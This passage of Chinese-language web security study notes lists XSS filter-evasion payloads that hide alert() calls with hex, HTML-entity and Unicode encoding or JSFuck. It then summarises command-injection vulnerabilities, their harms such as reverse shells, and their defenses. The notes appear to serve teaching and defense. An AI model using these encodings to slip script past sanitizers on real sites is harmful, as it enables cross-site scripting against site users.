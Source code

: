 ##### b. 十六进制

* 标识符：``&#x``

  ```html
  <a href="javascript:alert(/xss/)">click me</a>	=> 
  1. 
  	<a href="j&#x61;v&#x61;script:alert(/xss/)">click me</a>
  2. 
  	<img src=x onerror=eval("\x61\x6c\x65\x72\x74\x28\x31\x29")>
  		or
  	<script>eval("\x61\x6c\x65\x72\x74\x28\x31\x29")</script>
  ```

##### c. 其他编码

###### 	①Unicode编码

```html
<img src='x' onerror=eval("\0061\006c\0065\0072\0074\0028\0031\0029")>
<script>eval("\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029")</script>
```

###### 	②jsfuck混淆

* 将js代码转换成混淆之后的格式
* 在线转换网站http://www.jsfuck.com/

# 第六天

## 命令执行漏洞

### 1. 概述

#### (1). 概念

* 代码层**过滤不严**；应用程序直接或间接使用了**动态执行命令的危险函数**，并且这个函数的运行**参数是可控**的

#### (2). 危害及防御

##### a. 危害

1. 继承Web服务器**程序权限**(**Web用户权限**)，去**执行系统命令**
2. 继承Web服务器权限，读写文件
3. **反弹Shell**
4. 控制整个网站
5. 控制整个服务器

##### b. 防御

1. 尽量**少使用执行命令函数**或者**禁用disable_functions**
2. 在进入执行命令的函数之前，对**参数进行过滤**，对**敏感字符进行转义**
3. 参数值尽量使用**引号包括**，并在拼接前调用**addslashes进行转义**
